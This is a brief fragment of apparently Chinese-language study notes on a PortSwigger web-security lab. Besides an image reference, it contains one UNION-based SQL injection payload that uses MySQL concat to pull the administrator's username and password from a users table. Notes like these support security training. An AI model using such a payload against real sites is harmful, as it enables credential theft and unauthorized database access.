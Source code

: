 ![image-20250712003715021](portswigger.assets/image-20250712003715021.png)

或者用mysql的concat **category=Gifts' union select '1',concat(username,',',password) from users where username='administrator'--**
